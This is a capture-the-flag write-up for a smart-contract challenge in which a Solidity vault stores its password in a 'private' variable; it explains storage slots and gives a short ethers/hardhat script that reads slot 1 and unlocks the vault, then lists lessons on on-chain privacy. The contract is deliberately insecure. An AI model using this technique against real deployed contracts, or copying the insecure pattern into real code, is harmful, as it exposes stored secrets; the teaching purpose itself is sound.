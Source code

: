 # Level 8: Vault Challenge

## Challenge Description

This level introduces the concept of storage visibility in Ethereum smart contracts. The goal is to unlock a vault by finding a password that's declared as `private` in the contract.

## Contract Location

The challenge contract is located at:
```
/contracts/level-08-vault/Vault.sol
```

## Understanding the Challenge

The `Vault` contract is a simple contract that has a boolean variable `locked` and a `private` password. To unlock the vault, you need to call the `unlock` function with the correct password:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

### The Vulnerability

The vulnerability is in the misunderstanding of what `private` means in Solidity. While `private` variables are not directly accessible from other contracts, **all data on the blockchain is public**. The `private` keyword only restricts access within the smart contract context, but the data is still stored on the blockchain and can be read by anyone with access to the blockchain data.

## Winning Strategy

To win this challenge, you need to:

1. Understand how data is stored in Ethereum contracts
2. Read the contract's storage directly to find the password
3. Call the `unlock` function with the retrieved password

## Hint for Thinking

Ask yourself:
* What does `private` really mean in Solidity?
* Can blockchain data truly be private?
* How are variables stored in a contract's storage?

## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

The solution involves reading the contract's storage directly to retrieve the password.

### Understanding Solidity Storage

In Solidity, state variables are stored sequentially in "slots" based on their declaration order:
1. The `locked` boolean is stored in slot 0
2. The `password` bytes32 is stored in slot 1

Since we know exactly where the password is stored, we can read it directly from the blockchain.

### Solution Script

```javascript
// Read the password from storage slot 1
const password = await ethers.provider.getStorage(vaultContractAddress, 1);

// Use the password to unlock the vault
await vaultContract.unlock(password);
```

## Step-by-Step Solution Guide

### 1. Deploy the Vault Contract

If you're testing locally, deploy the Vault contract first:

```shell
npx hardhat deploy --tags vault
```

### 2. Execute the Exploit

Run the provided script to read the password from storage and unlock the vault:

```shell
npx hardhat run scripts/level-08-vault/read-vault-password.ts --network sepolia
```

Or specify a custom target address:

```shell
CONTRACT_ADDRESS=0xYourVaultAddress npx hardhat run scripts/level-08-vault/read-vault-password.ts --network sepolia
```

The script will:
1. Check if the vault is initially locked
2. Read the password directly from storage slot 1
3. Call the `unlock` function with the retrieved password
4. Verify that the vault is now unlocked

### 3. Verify Your Success

After executing the solution, check if the `locked` variable is set to `false`.

## Lessons Learned

This challenge teaches important lessons about data privacy on the blockchain:

1. **No True Privacy on the Blockchain**: Everything on the blockchain is public. The `private` keyword in Solidity only restricts access from other contracts, but not from users who can inspect the blockchain data.

2. **Storage Layout**: Understanding how Solidity arranges variables in storage is crucial for both security and optimization.

3. **Sensitive Data**: Never store sensitive information (like passwords, private keys, etc.) directly on the blockchain, even if they're declared as `private`.

4. **Alternative Solutions**: For applications requiring privacy, consider using:
   - Zero-knowledge proofs
   - Off-chain storage with hashed references
   - Encryption (though the keys would still need to be managed off-chain)

5. **Storage vs. Memory**: Solidity's `private` keyword only affects contract code access, not the actual visibility of data on the blockchain.

